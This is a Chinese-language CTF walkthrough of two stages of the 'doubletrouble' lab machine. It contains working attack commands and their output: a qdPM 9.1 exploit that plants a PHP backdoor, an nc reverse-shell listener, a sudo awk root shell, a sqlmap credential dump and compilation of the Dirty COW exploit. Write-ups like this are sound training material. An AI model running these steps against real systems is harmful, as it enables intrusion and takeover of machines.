

# 一号
## 信息搜集
主机发现

```clike
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 01:41 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0015s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00012s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.046s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00018s latency).
MAC Address: 08:00:27:70:CA:4E (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 4.85 seconds
```
端口扫描

```clike
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 01:41 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00024s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:70:CA:4E (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.27 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.10  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 01:43 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.0016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:70:CA:4E (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds
```

## 漏洞利用
看一下页面


搜索漏洞

```clike
┌──(kali㉿kali)-[~]
└─$ searchsploit qdPM 9.1     
------------------------------ ---------------------------------
 Exploit Title                |  Path
------------------------------ ---------------------------------
qdPM 9.1 - 'cfg[app_app_name] | php/webapps/48486.txt
qdPM 9.1 - 'filter_by' SQL In | php/webapps/45767.txt
qdPM 9.1 - 'search[keywords]' | php/webapps/46399.txt
qdPM 9.1 - 'search_by_extrafi | php/webapps/46387.txt
qdPM 9.1 - 'type' Cross-Site  | php/webapps/46398.txt
qdPM 9.1 - Arbitrary File Upl | php/webapps/48460.txt
qdPM 9.1 - Remote Code Execut | php/webapps/47954.py
qdPM 9.1 - Remote Code Execut | php/webapps/50175.py
qdPM 9.1 - Remote Code Execut | php/webapps/50944.py
qdPM < 9.1 - Remote Code Exec | multiple/webapps/48146.py
------------------------------ ---------------------------------
Shellcodes: No Results
```
可惜大概看了几个，都需要账号密码
目录扫描

```clike
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.10 -w /usr/share/wordlists/dirb/big.txt -x html,php,txt,zip,git,jpg,png
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,png,html,php,txt,zip,git
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.jpg        (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.png        (Status: 403) [Size: 278]
/.htaccess.zip        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.git        (Status: 403) [Size: 278]
/.htpasswd.png        (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd.zip        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htpasswd.jpg        (Status: 403) [Size: 278]
/.htpasswd.git        (Status: 403) [Size: 278]
/backups              (Status: 301) [Size: 316] [--> http://192.168.21.10/backups/]                                             
/batch                (Status: 301) [Size: 314] [--> http://192.168.21.10/batch/]                                               
/check.php            (Status: 200) [Size: 0]
/core                 (Status: 301) [Size: 313] [--> http://192.168.21.10/core/]                                                
/css                  (Status: 301) [Size: 312] [--> http://192.168.21.10/css/]                                                 
/favicon.png          (Status: 200) [Size: 2183]
/favicon.ico          (Status: 200) [Size: 894]
/images               (Status: 301) [Size: 315] [--> http://192.168.21.10/images/]                                              
/install              (Status: 301) [Size: 316] [--> http://192.168.21.10/install/]                                             
/index.php            (Status: 200) [Size: 5812]
/js                   (Status: 301) [Size: 311] [--> http://192.168.21.10/js/]                                                  
/readme.txt           (Status: 200) [Size: 470]
/robots.txt           (Status: 200) [Size: 26]
/robots.txt           (Status: 200) [Size: 26]
/secret               (Status: 301) [Size: 315] [--> http://192.168.21.10/secret/]                                              
/server-status        (Status: 403) [Size: 278]
/sf                   (Status: 301) [Size: 311] [--> http://192.168.21.10/sf/]                                                  
/template             (Status: 301) [Size: 317] [--> http://192.168.21.10/template/]                                            
/uploads              (Status: 301) [Size: 316] [--> http://192.168.21.10/uploads/]                                             
Progress: 163752 / 163760 (100.00%)
===============================================================
Finished
===============================================================
```
/secret


目录下面有个图片，下载下来看一看

```clike
┌──(kali㉿kali)-[~]
└─$ stegseek doubletrouble.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "92camaro"       
[i] Original filename: "creds.txt".
[i] Extracting to "doubletrouble.jpg.out".
```


现在尝试使用漏洞

```clike
┌──(kali㉿kali)-[~]
└─$ python3 50944.py -url http://192.168.21.10/ -u otisrush@localhost.com -p otis666
You are not able to use the designated admin account because they do not have a myAccount page.

The DateStamp is 2025-03-27 01:19 
Backdoor uploaded at - > http://192.168.21.10/uploads/users/271349-backdoor.php?cmd=whoami
```
看一下怎么执行的


反弹shell成功


```clike
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444         
listening on [any] 4444 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.21.10] 53186
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## 提权
看一下有没有可以利用的

```clike
www-data@doubletrouble:/var/www/html/uploads/users$ sudo -l
sudo -l
Matching Defaults entries for www-data on doubletrouble:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on doubletrouble:
    (ALL : ALL) NOPASSWD: /usr/bin/awk
www-data@doubletrouble:/var/www/html/uploads/users$ find / -perm -u=s -type f 2>/dev/null
<ploads/users$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
www-data@doubletrouble:/var/www/html/uploads/users$ /usr/sbin/getcap -r / 2>/dev/null
<ml/uploads/users$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
www-data@doubletrouble:/var/www/html/uploads/users$ cat /etc/passwd | grep /bin/bash
<tml/uploads/users$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
```


提权成功

```clike
www-data@doubletrouble:/var/www/html/uploads/users$ sudo /usr/bin/awk 'BEGIN {system("/bin/bash")}'
<rs$ sudo /usr/bin/awk 'BEGIN {system("/bin/bash")}'
root@doubletrouble:/var/www/html/uploads/users# id
id
uid=0(root) gid=0(root) groups=0(root)
```
但是好像还没有结束

```clike
root@doubletrouble:~# ls -la
ls -la
total 403472
drwx------  2 root root      4096 Sep 11  2021 .
drwxr-xr-x 18 root root      4096 Dec 17  2020 ..
-rw-------  1 root root        46 Sep 11  2021 .bash_history
-rw-r--r--  1 root root 413142528 Sep 11  2021 doubletrouble.ova
```
# 二号
## 信息搜集
主机发现

```clike
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 02:41 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0015s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00018s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.095s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.14 (192.168.21.14)
Host is up (0.00015s latency).
MAC Address: 08:00:27:2A:55:9E (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.96 seconds
```
端口扫描

```clike
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 02:41 EDT
Nmap scan report for 192.168.21.14 (192.168.21.14)
Host is up (0.000082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:2A:55:9E (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.87 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.14  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 02:42 EDT
Nmap scan report for 192.168.21.14 (192.168.21.14)
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
MAC Address: 08:00:27:2A:55:9E (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.10, Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```
## 漏洞利用
看一下页面



目录扫描

```clike
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.14 -w /usr/share/wordlists/dirb/big.txt -x html,php,txt,zip,git,jpg,png
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,git,jpg,png,html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 290]
/.htaccess.txt        (Status: 403) [Size: 294]
/.htaccess.zip        (Status: 403) [Size: 294]
/.htaccess.git        (Status: 403) [Size: 294]
/.htaccess.php        (Status: 403) [Size: 294]
/.htaccess.html       (Status: 403) [Size: 295]
/.htaccess.jpg        (Status: 403) [Size: 294]
/.htpasswd.zip        (Status: 403) [Size: 294]
/.htaccess.png        (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 290]
/.htpasswd.png        (Status: 403) [Size: 294]
/.htpasswd.html       (Status: 403) [Size: 295]
/.htpasswd.jpg        (Status: 403) [Size: 294]
/.htpasswd.txt        (Status: 403) [Size: 294]
/.htpasswd.git        (Status: 403) [Size: 294]
/.htpasswd.php        (Status: 403) [Size: 294]
/cgi-bin/             (Status: 403) [Size: 289]
/cgi-bin/.php         (Status: 403) [Size: 293]
/cgi-bin/.html        (Status: 403) [Size: 294]
/index.php            (Status: 200) [Size: 615]
/server-status        (Status: 403) [Size: 294]
Progress: 163752 / 163760 (100.00%)
===============================================================
Finished
===============================================================
```
抓取一下登录请求，保存下来用sqlmap


```clike
┌──(kali㉿kali)-[~]
└─$ sqlmap -r 1.txt --dbs
[*] doubletrouble
[*] information_schema
┌──(kali㉿kali)-[~]
└─$ sqlmap -r 1.txt -D doubletrouble --tables
[1 table]
+-------+
| users |
+-------+
┌──(kali㉿kali)-[~]
└─$ sqlmap -r 1.txt -D doubletrouble -dump        
+----------+----------+
| password | username |
+----------+----------+
| GfsZxc1  | montreux |
| ZubZub99 | clapton  |
+----------+----------+
```
ssh登录
```clike
┌──(kali㉿kali)-[~]
└─$ ssh clapton@192.168.21.14
clapton@192.168.21.14's password: 
Linux doubletrouble 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
clapton@doubletrouble:~$
```
## 提权
user.txt
```clike
clapton@doubletrouble:~$ cat user.txt
6CEA7A737C7C651F6DA7669109B5FB52
```
看一下有没有可以利用的
```clike
clapton@doubletrouble:~$ uname -a
Linux doubletrouble 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
clapton@doubletrouble:~$ sudo -l
-bash: sudo: command not found
clapton@doubletrouble:~$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/exim4
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/lib/eject/dmcrypt-get-device
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/bin/ping
/bin/mount
/bin/umount
/bin/su
/bin/ping6
clapton@doubletrouble:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
clapton:x:1000:1000:,,,:/home/clapton:/bin/bash
```


```clike
clapton@doubletrouble:~$ gcc -pthread 40839.c -o dirty -lcrypt
clapton@doubletrouble:~$ ls -la
total 40
drwxr-xr-x 3 clapton clapton  4096 Mar 27 02:47 .
drwxr-xr-x 3 root    root     4096 Sep  6  2021 ..
-rw-r--r-- 1 clapton clapton  5006 Mar 27 02:47 40839.c
-rwxr-xr-x 1 clapton clapton 12486 Mar 27 02:47 dirty
drwx------ 2 clapton clapton  4096 Sep  6  2021 .ssh
-r-x------ 1 clapton clapton    32 Sep  8  2021 user.txt
clapton@doubletrouble:~$ ./dirty 1233456
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 123456
Complete line:
firefart:fin1c8aZBxfUI:0:0:pwned:/root:/bin/bash

mmap: 7f19cb3b3000

clapton@doubletrouble:~$ su firefart
Password: 
firefart@doubletrouble:/home/clapton#id
uid=0(firefart) gid=0(root) groups=0(root)
```
root.txt

```clike
firefart@doubletrouble:~# cat root.txt
1B8EEA89EA92CECB931E3CC25AA8DE21
```